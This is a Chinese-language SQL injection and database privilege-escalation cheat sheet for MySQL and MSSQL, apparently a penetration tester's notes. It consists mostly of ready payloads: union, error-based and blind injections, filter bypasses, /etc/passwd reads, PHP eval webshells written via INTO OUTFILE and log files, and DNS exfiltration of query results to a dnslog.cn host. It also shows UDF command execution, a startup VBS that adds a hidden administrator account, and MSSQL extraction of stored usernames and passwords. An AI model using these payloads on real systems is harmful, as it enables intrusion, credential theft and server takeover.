



# MYSQL

## 基础注入

### 联合查询

- 若前面的查询结果不为空，则返回两次查询的值：
- 若前面的查询结果为空，则只返回union查询的值：

- 关键字`union select`
- 需要字段数对应

```sql
常用Payload：

# 查询表名
' union select group_concat(table_name) from information_schema.tables where table_schema=database()%23
# 查询字段名
' union select group_concat(column_name) from information_schema.columns where table_name='table1'%23
```

### 报错注入

报错注入是利用mysql在出错的时候会引出查询信息的特征，常用的报错手段有如下10种：

```sql
# 修改select user() 字段 获取不同的信息

# 1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

# 2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

# 3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

# 4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

# 5.multipoint()

select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()

select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()

select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()

select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()

select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()

select * from test where id=1 and exp(~(select * from(select user())a));
```

### 布尔盲注

常见的布尔盲注场景有两种，一是返回值只有True或False的类型，二是Order by盲注。

**返回值只有True或False的类型**

如果查询结果不为空，则返回True（或者是Success之类的），否则返回False

这种注入比较简单，可以挨个猜测表名、字段名和字段值的字符，通过返回结果判断猜测是否正确

```
例：parameter=’ or ascii(substr((select database()) ,1,1))<115—+
```

**Orderby盲注**

order by rand(True)和order by rand(False)的结果排序是不同的，可以根据这个不同来进行盲注：

```
例：order by rand(database()='pdotest')
```

返回了True的排序，说明database()=’pdotest’是正确的值

### 时间盲注

其实大多数页面，即使存在sql注入也基本是不会有回显的，因此这时候就要用延时来判断查询的结果是否正确。

常见的时间盲注有：

**1.sleep(x)**

```sql
id=' or sleep(3)%23

id=' or if(ascii(substr(database(),1,1))>114,sleep(3),0)%23
```

查询结果正确，则延迟3秒，错误则无延时。

**2.benchmark()**

通过大量运算来模拟延时：

```sql
id=' or benchmark(10000000,sha(1))%23

id=' or if(ascii(substr(database(),1,1))>114,benchmark(10000000,sha(1)),0)%23
```

本地测试这个值大约可延时3秒：

**3.笛卡尔积**

计算笛卡尔积也是通过大量运算模拟延时：

```sql
select count(*) from information_schema.tables A,information_schema.tables B,information_schema.tables C

select balabala from table1 where '1'='2' or if(ascii(substr(database(),1,1))>0,(select count(*) from information_schema.tables A,information_schema.tables B,information_schema.tables C),0)
```

笛卡尔积延时大约也是3秒

### HTTP头注入

注入手法和上述相差不多，就是注入点发生了变化

### HTTP分割注入

常见场景,登录处SQL语句如下，注释符号被过滤

```sql
select xxx from xxx where username=’xxx’ and password=’xxx’
```

```sql
# 方法一
username=1' or extractvalue/*
password=1*/(1,concat(0x7e,(select database()),0x7e))or'

SQL语句最终变为
select xxx from xxx where username='1' or extractvalue/*’ and password=’*/(1,concat(0x7e,(select database()),0x7e))or''

# 方法二
username=1' or if(ascii(substr(database(),1,1))=115,sleep(3),0) or '1
password=1
select * from users where username='1' or if(ascii(substr(database(),1,1))>0,sleep(3),0) or '1' and password='1'
```

### 二次注入

二次注入主要出现在`update`和`select`结合点，如注册之后在登录

攻击者构造的恶意payload首先会被服务器存储在数据库中，在之后取出数据库在进行SQL语句拼接时产生的SQL注入问题

### SQL约束攻击

假如注册时username参数在mysql中为**字符串**类型，并且有**unique属性**，设置了长度为VARCHAR(20)。

则我们注册一个username为admin[20个空格]asd的用户名，则在mysql中首先会判断是否有重复，若无重复，则会**截取前20个字符**加入到数据库中，所以数据库存储的数据为admin[20个空格]，而进行登录的时候，SQL语句会**忽略空格**，因此我们相当于覆写了admin账号。

## 基础绕过

### 大小写绕过

```
用于过滤时没有匹配大小写的情况：

SelECt * from table;
```

### 双写绕过

```
用于将禁止的字符直接删掉的过滤情况如：

preg_replace(‘/select/‘,’’,input)

则可用seselectlect from xxx来绕过，在删除一个select后剩下的就是select from xxx
```

### 绕过空格

```
当空格被过滤时，可以使用/**/ () %0a %09进行绕过
```

### 使用16进制绕过特定字符

如果在查询字段名的时候表名被过滤，或是数据库中某些特定字符被过滤，则可用16进制绕过：

```
select column_name from information_schema.columns where table_name=0x7573657273;
```

0x7573657273为users的16进制

**只能针对表名，字段名等，内置函数关键字，不能使用16进制替代**

### 宽字节、Latin1默认编码

**宽字节注入**

用于**单引号被转义**，但编码为**gbk编码**的情况下，用特殊字符将其与反斜杠合并，构成一个特殊字符：

```
username = %df'#
经gbk解码后变为：
select * from users where username ='運'#
```

成功闭合了单引号。

**Latin1编码**

Mysql表的编码默认为latin1，如果设置字符集为utf8，则存在一些latin1中有而utf8中没有的字符，而Mysql是如何处理这些字符的呢？**直接忽略**

于是我们可以输入`?username=admin%c2`，存储至表中就变为了admin

上面的`%c2`可以换为`%c2-%ef`之间的任意字符

### 常见字符的替代

```
and -> &&
or -> ||
空格-> /**/ -> %a0 -> %0a -> +
# -> --+ -> ;%00(php<=5.3.4) -> or '1'='1
= -> like -> regexp -> <> -> in
注：regexp为正则匹配，利用正则会有些新的注入手段
```

### 逗号被过滤

```sql
# 用join代替：
-1 union select 1,2,3
-1 union select * from (select 1)a join (select 2)b join (select 3)c%23

# limit：
limit 2,1
limit 1 offset 2

# substr:
substr(database(),5,1)
substr(database() from 5 for 1) from为从第几个字符开始，for为截取几个
substr(database() from 5)
# 如果for也被过滤了
mid(REVERSE(mid(database()from(-5)))from(-1)) reverse是反转，mid和substr等同

# if:
if(database()=’xxx’,sleep(3),1)
id=1 and databse()=’xxx’ and sleep(3)
select case when database()=’xxx’ then sleep(5) else 0 end
```

### limit被过滤

```sql
select user from users limit 1

加限制条件，如：

select user from users group by user_id having user_id = 1 (user_id是表中的一个column)
```

### information_schema被过滤

```sql
innodb引擎可用mysql.innodb_table_stats、innodb_index_stats，日志将会把表、键的信息记录到这两个表中

除此之外，系统表sys.schema_table_statistics_with_buffer、sys.schema_auto_increment_columns用于记录查询的缓存，某些情况下可代替information_schema
```

## 文件读写

### 读写权限

在进行MySQL文件读写操作之前要先查看是否拥有权限，mysql文件权限存放于mysql表的file_priv字段，对应不同的User，如果可以读写，则数据库记录为Y，反之为N：

我们可以通过user()查看当前用户是什么，如果对应用户具有读写权限，则往下看，反之则放弃这条路找其他的方法。

除了要查看用户权限，还有一个地方要查看，即**secure-file-priv**。它是一个系统变量，用于限制读写功能，它的值有三种：

（1）无内容，即无限制

（2）为NULL，表示禁止文件读写

（3）为目录名，表示仅能在此目录下读写

该配置项存放在`my.ini`中，修改之后必须重启mysql重新加载配置文件

### 读文件

如果满足上述2个条件，则可尝试读写文件了。

常用的读文件的语句有如下几种：

```
select load_file(file_path);
load data infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取服务端文件
load data local infile "/etc/passwd" into table 库里存在的表名 FIELDS TERMINATED BY 'n'; #读取客户端文件
```

需要注意的是，file_path必须为绝对路径，且反斜杠需要转义：

### 写文件

```
select 1,"<?php eval($_POST['cmd']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php eval($_POST['cmd']);?>" into dumpfile '/var/www/html/1.php';
```

当secure_file_priv值为NULL时，可用生成日志的方法绕过：

```
set global general_log_file = '/var/www/html/1.php';
set global general_log = on;
```

日志除了general_log还有其他许多日志，实际场景中需要有足够的写入日志的权限，且需要堆叠注入的条件方可采用该方法，因此利用非常困难。

### DNS外带注入

若用户访问DNS服务器，则会在DNS日志中留下记录。如果请求中带有SQL查询的信息，则信息可被带出到DNS记录中。

利用条件：

1.secure_file_priv为空且有文件读取权限

2.目标为windows（利用了UNC，Linux不可行）

3.无回显且无法时间盲注

利用方法：

可以找一个免费的DNSlog：http://dnslog.cn/

进入后可获取一个子域名，执行：

```
select load_file(concat('\\',(select database()),'.子域名.dnslog.cn'));
```

相当于访问了select database().子域名.dnslog.cn，于是会留下DNSLOG记录，可从这些记录中查看SQL返回的信息。

## mysql getshell

### 文件导出函数GetShell

#### 利用条件

- 数据库当前用户为`root`权限
- 知道当前网站的绝对路径
- PHP的GPC为off状态
- 写入的那个歌路径存在写入权限

#### 基于联合查询时

```mysql
?id=1 union select 1,'<?php phpinfo();?>',3 into outfile '网站根目录绝对路径'-- qwe
?id=1 union select 1,'<?php phpinfo();?>',3 into dumpfile '网站根目录绝对路径'-- qwe
```

#### 非联合查询

```mysql
?id=1 into outfile '网站根目录绝对路径' FIELDS TERMINATED BY '<?php phpinfo();?>'-- qwe
```

这个语句的意思是，导出当前数据表到xxx文件中，数据表中的字段以`<?php phpinfo();?>`分隔

形如：

```
id username password 导出后会变成
id<?php phpinfo();?>username<?php phpinfo();?>password
```

#### outfile和dumpfile的区别

`outfile:`

1. 支持多行数据同时导出
2. 使用union联合查询时，要保证两侧查询的列数相同
3. 会在换行符制表符后面追加反斜杠
4. 会在末尾追加换行

`dumpfile:`

1. 每次只能导出一行数据
2. 不会在换行符制表符后面追加反斜杠
3. 不会在末尾追加换行

因此，`dumpfile`函数这个函数来顺利写入二进制文件，当然`into outfile`函数也可以写入二进制文件，但是无法生效（追加的反斜杠会使二进制文件无法生效），当使用`dumpfile`函数时，应该手动添加limit限制来获取不同的行数。

#### secure_file_prive

写文件提权，终究是离不开这个配置项：

```
secure_file_prive= ，结果为空的话，表示允许任何文件读写

secure_file_prive=NULL，表示不允许任何文件读写

secure_file_prive=‘某个路径’，表示这个路径作为文件读写的路径

在mysql5.5版本前，都是默认为空，允许读取

在mysql5.6版本后 ,默认为NULL，并且无法用SQL语句对其进行修改。所以这种只能在配置进行修改。
```

查询该参数配置的情况：

```mysql
show global variables like "%secure%";
```

利用sql语句修改配置项（5.6版本以前，临时修改重启失效）：

```mysql
set global secure_file_prive=""
```

`5.6`版本以后，只能利用配置项修改：


### 日志GetShell

#### 全局日志Getshell

利用`general_log`，可以将所有到达mysql服务器的sql语句，都记录下来

```mysql
# 查看日志是否开启
show variables like 'general_log';

# 开启日志功能
set global geeral_log=on;

# 查看文件日志保存位置
show variables like 'general_log_file';

# 设置日志保存位置（getshell的话存放在网站根目录，名为.php）
set global general_log_file='/var/www/html/shell.php';

# 查看日志输出类型 table：将日志存入数据库的日志表中；file：将日志存入文件中
show variables like 'log_output';

# 修改日志存储类型
set global log_output='table/file';
```

GetShell方式：

```mysql
set global geeral_log=on;
set global general_log_file='/var/www/html/shell.php';
select '<?php eval($_POST[8]);?>'
```

#### 慢日志GetShell

一般都是通过long_query_time选项来设置这个时间值，时间以秒为单位，可以精确到微秒。如果查询时间超过了这个时间值（默认为10秒），这个查询语句将被记录到慢查询日志中。查看服务器默认时间值方式

```mysql
# 查看服务器默认时间值方式
show global variables like '%long_query_time%'
show global variables like '%long%'

# 查看慢日志参数
show global variable like '%slow%';
```

GetShell方式：

```mysql
# 打开慢日志
set global slow_query_log=on

# 设置慢日志路径
set global slow_query_log_file='/var/www/html/shell.php'

# 记录到日志中的语句
select '<?php @eval($_POST[8]);?>' or sleep(20)
```

### 爆绝对路径的方法

上述的提权方式都离不开知道网站的绝对路径，下面是一些得到绝对路径的方法。

#### 单引号爆路径

- 直接在URL后面加单引号，要求单引号没有被过滤(gpc=off)且服务器默认返回错误信息。
   `www.xxx.com/news.php?id=1′`

#### 错误参数值爆路径

- 将要提交的参数值改成错误值，比如-1。-99999单引号被过滤时不妨试试。
   `www.xxx.com/researcharchive.php?id=-1`

#### Google爆路径

- 结合关键字和site语法搜索出错页面的网页快照，常见关键字有warning和fatal error。注意，如果目标站点是二级域名，site接的是其对应的顶级域名，这样得到的信息要多得多。

```
Site:xxx.edu.tw warning
Site:xxx.com.tw “fatal error”
```

#### 测试文件爆路径

- 很多网站的根目录下都存在测试文件，脚本代码通常都是phpinfo()。

```
www.xxx.com/test.php
www.xxx.com/ceshi.php
www.xxx.com/info.php
www.xxx.com/phpinfo.php
www.xxx.com/php_info.php
www.xxx.com/1.php
```

#### phpmyadmin爆路径

- 一旦找到phpmyadmin的管理页面，再访问该目录下的某些特定文件，就很有可能爆出物理路径。至于phpmyadmin的地址可以用wwwscan这类的工具去扫，也可以选择google。

```
/phpmyadmin/libraries/lect_lang.lib.php
/phpMyAdmin/index.php?lang[]=1
/phpMyAdmin/phpinfo.php
load_file()
/phpmyadmin/themes/darkblue_orange/layout.inc.php
/phpmyadmin/libraries/select_lang.lib.php
/phpmyadmin/libraries/lect_lang.lib.php
/phpmyadmin/libraries/mcrypt.lib.php
```

#### 配置文件找路径

- 如果注入点有文件读取权限，就可以手工load_file或工具读取配置文件，再从中寻找路径信息（一般在文件末尾）。各平台下Web服务器和PHP的配置文件默认路径可以上网查，这里列举常见的几个。

```
Windows:
c:\windows\php.ini php配置文件
c:\windows\system32\inetsrv\MetaBase.xml IIS虚拟主机配置文件


Linux:
/etc/php.ini php配置文件
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf Apache配置文件
/usr/local/apache/conf/httpd.conf
/usr/local/apache2/conf/httpd.conf
/usr/local/apache/conf/extra/httpd-vhosts.conf 虚拟目录配置文件
```

### Linux

为什么要把Linux单独提出来说，因为Linux的权限控制很严格，有的时候即使我们完全控住了MYSQL 但是 没有对网站根目录的读写权限，也会很没有办法去利用上述方法写shell

## mysql提权

### MOF提权

MOF 提权是一个有历史的漏洞，基本上在 `Windows Server 2003 `的环境下才可以成功。

提权的原理是`C:/Windows/system32/wbem/mof/`目录下的 `mof `文件每 隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 `mof `目录的话，就可以来执行任意命令了。

经测试win7虽然存在这个文件目录，但是mysql以管理员权限运行，也会提示写入失败。

### UDF提权

UDF说白了就是自定义函数，是数据库功能的一种扩展。用户通过自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在SQL语句中调用，就像调用本机函数 version() 等方便。

如果我们添加的自定义函数可以执行系统命令，那么是不是就相当于以mysql的权限去执行系统命令，如果mysql的权限比较高，是不是就可以达到一种权限提升的效果

#### 动态链接库

构建UDF的过程，其实就是调用动态链接库的过程，因此我们首先必须知道动态链接库存放的位置，以及要有合适的动态链接库

- 如果mysql版本大于5.1，udf.dll文件必须放置在mysql安装目录的lib\plugin文件夹下

- 如果mysql版本小于5.1，udf.dll文件在windows server 2003下放置于c:\windows\system32目录，在windows server 2000下放置在c:\winnt\system32目录

```
show variables like '%plugin%'; # 查找插件目录
select @@basedir; # 查找 mysql 安装目录
```


那么动态链接库文件去哪里找呢？实际上我们常用的工具 sqlmap 和 Metasploit 里面都自带了对应系统的动态链接库文件。

- **sqlmap 的 UDF 动态链接库文件位置** `sqlmap根目录/data/udf/mysql`



不过 sqlmap 中 自带这些动态链接库为了防止被误杀都经过编码处理过，不能被直接使用。不过可以利用 sqlmap 自带的解码工具cloak.py 来解码使用，cloak.py 的位置为：`/extra/cloak/cloak.py` ，解码方法如下：

```
# 解码 32 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/32/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_32.so

# 解码 64 位的 Linux 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/linux/64/lib_mysqludf_sys.so_ -o lib_mysqludf_sys_64.so

# 解码 32 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/32/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_32.dll

# 解码 64 位的 Windows 动态链接库
➜ python3 cloak.py -d -i ../../data/udf/mysql/windows/64/lib_mysqludf_sys.dll_ -o lib_mysqludf_sys_64.dll
```

- **Metasploit的UDF动态链接库文件位置**`/usr/share/metasploit-framework/data/exploits/mysql`


- 两款工具带的动态链接库是一样的

#### 寻找插件目录



如果不存在的话

```
select @@basedir; # 寻找MySQL的安装目录
```


然后通过webshell手动去创建

#### 写入动态链接库

**方法一：**

当SQL 注入且是高权限，plugin 目录可写且需要 secure_file_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击

```
sqlmap -u "http://localhost:30008/" --data="id=1" --file-write="/Users/sec/Desktop/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"
```

**方法二：**

当没有注入点时，我们可以操作原生 SQL 语句，这种情况下当 secure_file_priv 无限制的时候，我们也是可以手工写文件到 plugin 目录下的：

```sql
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 解码十六进制再写入多此一举
SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

这里的十六进制怎么获取呢？可以利用 MySQL 自带的 hex 函数来编码：

```sql
# 直接传入路径编码
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

# 也可以将路径 hex 编码
SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));
```

一般为了更方便观察，可以将编码后的结果导入到新的文件中方便观察：

```sql
SELECT hex(load_file('/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt'; 

SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f)) into dumpfile '/tmp/udf.txt';
```

**方法三：**

当webshell有一定权限时，可以直接通过文件上传的方式，上传对应的`dll`文件

#### 创建自定义函数并调用命令

- `CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';`


- `select * from mysql.func;` 验证是否添加成功


- 调用该函数，即可以mysql权限执行一些系统命令


- 删除自定义函数 `drop function sys_eval;`


#### UDF Shell

**方法一：UDF.PHP**

http://pan.dns.outnet/index.php?mod=shares&sid=R1ZXZ0UwdTJuSjVxZEVxd1JCc0E0TWl1VzZ1NjVOWW91Z3U2RExF


**方法二：ntunnel_mysql.php**

Navicat内置的php-mysq链接文件，上传到目标网站


对navicat进行如下配置即可：



**方法三：蚁剑内置插件**


### 启动项提权

windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。当 Windows 的启动项可以被 MySQL 写入的时候可以使用 MySQL 将自定义脚本导入到启动项中，这个脚本会在用户登录、开机、关机的时候自动运行。

```
在windows2003的系统下，启动项路径如下：
	C:\Documents and Settings\Administrator\「开始」菜单\程序\启动
	C:\Documents and Settings\All Users\「开始」菜单\程序\启动

在windows2008的系统下，启动项路径如下：
	C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
	C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

我们在拿到一个网站的webshell的时候如果想进一步的获得网站的服务器权限，查看服务器上系统盘的可读可写目录，若是启动目录 `C:\Users\用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` 是可读可写的，我们就可以执行上传一个vbs或者bat的脚本进行提权。

这里使用`test.vbs`添加用户密码，上传到启动目录重启的时候即可自动添加账号密码

```vb
set wshshell=createobject("wscript.shell")
a=wshshell.run("cmd.exe /c net user test test123 /add",0)
b=wshshell.run("cmd.exe /c net localgroup administrators test /add",0)
```

通过mysql的话：

```sql
use mysql;
create table test(cmd text);
insert into a values(“set wshshell=createobject(“”wscript.shell””)”);
insert into a values(“a=wshshell.run(“”cmd.exe /c net user test test123 /add“”,0)”);
insert into a values(“b=wshshell.run(“”cmd.exe /c net localgroup administrators test /add“”,0)”);
select * from a into outfile “C:\Documents and Settings\All Users\「开始」菜单\程序\启动\secist.vbs”;
```

重启之后可以提权

### CVE-2016-6663和CVE-2016-6664

https://www.freebuf.com/articles/web/288941.html

https://lengjibo.github.io/mysqludf/

# MSSQL

## MSSQL基础

### 系统自带库

MSSQL安装后默认带了六个数据库

- 4个系统库：`master`、`model`、`tempdb`和`msdb`；

- 2个示例库：`NorthwindTraders`和`pubs`

| 系统自带库 | 功能                                                         |
| ---------- | ------------------------------------------------------------ |
| master     | 系统控制数据库，包含所有配置信息，用户登录信息，当前系统运行情况 |
| model      | 模板数据库，数据库时建立所有数据库的模板。                   |
| tempdb     | 临时容器，保存所有的临时表，存储过程和其他程序交互的临时文件 |
| msdb       | 主要为用户使用，记录着计划信息、事件处理信息、数据备份、警告以及异常信息 |

### 系统视图表

MSSQL数据库有安装的自带数据表：

| 视图表                     | 功能                                                  |
| -------------------------- | ----------------------------------------------------- |
| sysobjects                 | 记录了数据库中所有表，常用字段为id、name和xtype       |
| syscolumns                 | 记录了数据库中所有表的字段，常用字段为id、name和xtype |
| sys.databases              | SQL Server 中所有的数据库                             |
| sys.sql_logins             | SQL Server 中所有的登录名                             |
| information_schema.tables  | 当前用户数据库的表                                    |
| information_schema.columns | 当前用户数据库的列                                    |
| sys.all_columns            | 用户定义和系统对象的所有列的联合                      |
| sys.database_principals    | 数据库中每个权限或列异常权限                          |
| sys.database_files         | 存储在数据库中数据库文件                              |

### MSSQL权限控制

- 服务器角色

| 固定服务器角色             | 权限                                        |
| -------------------------- | ------------------------------------------- |
| sysadmin（最高服务器角色） | 执行SQL Server中的任何动作                  |
| serveradmin                | 配置服务器设置                              |
| setupadmin                 | 安装复制和管理扩展过程                      |
| securityadmin              | 管理登录和Create database的权限以及阅读审计 |
| processadmin               | 管理SQL Server进程                          |
| dbcreator                  | 创建和修改数据库                            |
| diskadmin                  | 管理磁盘文件                                |

可以通过如下语句判断：

```
select is_srvrolemember('sysadmin')
```


- 数据库角色

| 固定数据库角色        | 权限                                               |
| --------------------- | -------------------------------------------------- |
| db_owner（ 最高权限） | 可以执行数据库中所有动作的用户                     |
| db_accessadmin        | 可以添加、删除用户的用户                           |
| db_datareader         | 可以查看所有数据库中用户表内数据的用户             |
| db_datawriter         | 可以添加、修改、删除所有数据库中用户表内数据的用户 |
| db_ddladmin           | 可以在数据库注重执行所有DDL操作的用户              |
| db_securityadmin      | 可以管理数据库中与安全权限有关所有动作的用户       |
| db_backoperator       | 可以备份数据库的用户                               |
| db_denydatareader     | 不能看到数据库中任何数据的用户                     |
| db_denydatawriter     | 不能改变数据库中任何数据的用户                     |

可以通过如下语句判断：

```sql
select is_member('db_owner')
```


### MSSQL常用语句

```sql
# 创建数据库
create database [dbname];
create database test;

# 删除数据库
drop database [dbname];
drop database test;

# 创建新表
create table table_name (name char(10),age tinyint,sex int);
# 创建新表前要选择数据库，默认是master库 
use test; 
create table admin (users char(255),passwd char(255),sex int);

# 删除新表
drop table table_name;
drop table dbo.admin;

# 向表中插入数据
insert into table_name (column1,column2) values(value1,value2);
insert into admin (users,passwd,sex) values('admin','admin',1);

# 删除内容
delete from table_name where column1=value1;
delete from admin where sex=2;

# 更新内容
update table_name set column2=”xxx” where column1=value1;
update admin set users='admintest' where sex=2;

# 查找内容
select * from table_name where column1=value1;
select passwd from admin where users='admin';
```

```

```

- 排序&获取下一条数据
  - MSSQL数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，
  - 使用 <> 来排除已经显示的数据，获取下一条数据，也就是不等于的意思。
  - 使用not in来排除已经显示的数据，获取下一条数据 ，后面可以跟一个集合。

```sql
# 使用<>获取数据
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--+
# 使用not in获取数据
id=-2 union select top 1 1,table_name from information_schema.tables where table_name not in(select top 1 table_name from information_schema.tables)--+
id=-2 union select top 1 1,id,name from dbo.syscolumns where id='5575058' and name not in('id','username')--+
```

### MSSSQL注释

```sql
单行：--空格
多行：/**/
```

### 常用函数

| 名称                  | 功能                                                         |
| --------------------- | ------------------------------------------------------------ |
| suser_name()          | 用户登录名                                                   |
| user_name()           | 用户在数据库中的名字                                         |
| user                  | 用户在数据库中的名字                                         |
| db_name()             | 数据库名                                                     |
| @@version             | 返回SQL服务器版本相关信息                                    |
| quotename()           | 在存储过程中，给列名、表名等加个[]、’’等以保证sql语句能正常执行 |
| WAITFOR DELAY '0:0:n' | '时:分:秒'，WAITFOR DELAY '0:0:5'表示等待5秒后执行           |
| substring()           | 截取字符串 substr(字符串，开始截取位置，截取长度) ，例如substring('abcdef',1,2) 表示从第一位开始，截取2位，即 'ab' |

## 常见注入类型

### 联合查询注入

```sql
1.判断注入点及类型
?id=1' and 1=1--+
?id=1' and 1=2--+
# 那么此处是字符型注入，需要单引号闭合

2.判断字段数
?id=1' order by 3--+
?id=1' order by 4--+

3.联合查询判断回显点
?id=0' union select 1,2,3--+

4.获取当前数据库名字和版本信息
?id=0' union select 1,db_name(),@@version--+

5.获取所有的数据库名，database在较高版本的SQL Server 中已经变成了动态视图
?id=0' union select 1,db_name(),name from master.sys.databases where name not in(select top 1 name 
from master.sys.databases)--+

6.获取所有的表名，当information前面没有库名时，默认查询当前数据库，与mysql不同，每个数据库都有单独的information表，可以用master.information_schema.tables 来查询不同数据库的信息
?id=0' union select top 1 1,2,table_name from information_schema.tables where table_name not in
(select top 1 table_name from information_schema.tables)--+

7.获取所有的字段名，多加些限定条件方便注入
?id=0' union select top 1 1,2,column_name from information_schema.columns where column_name not in
(select top 1 column_name from information_schema.columns)--+

?id=0' union select top 1 1,2,column_name from information_schema.columns where table_name='users' and 
column_name not in(select top 2 column_name from information_schema.columns where table_name='users')--

8.获取users表账号密码信息
?id=0' union select top 1 1,username,password from users--+
```

### 报错注入

- MSSQL数据库是强类型语言数据库，当类型不一致时将会报错，配合子查询即可实现报错注入

```sql
1.判断注入点
id=1

2.判断是否为MSSQL数据库
# 返回正常为MSSQL
id=1 and exists(select * from sysobjects)
id=1 and exists(select count(*) from sysobjects)

3.判断数据库版本号
id=1 and @@version>0--+
# @@version是mssql的全局变量，@@version>0执行时转换成数字会报错，也就将数据库信息暴露出来了,必须是在where后面拼接执行

4.获取当前数据库名
and db_name()>0--+
and 1=db_name()--+
# 报错注入的原理就是将其他类型的值转换层int型失败后就会爆出原来语句执行的结果

5.判断当前服务器拥有的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'))--+
and 1=(select IS_SRVROLEMEMBER('serveradmin'))--+
and 1=(select IS_SRVROLEMEMBER('setupadmin'))--+
and 1=(select IS_SRVROLEMEMBER('securityadmin'))--+
and 1=(select IS_SRVROLEMEMBER('diskadmin'))--+
and 1=(select IS_SRVROLEMEMBER('bulkadmin'))--+

6.判断当前角色是否为DB_OWNER 
and 1=(select is_member('db_owner'))--+
# db_owner权限可以通过备份方式向目标网站写文件

7.获取当前用户名
and user_name()>0--+

8,获取所有数据库名
and (select name from master.sys.databases where database_id=1)>0--+
# 更改database_id的值来获取所有的数据库

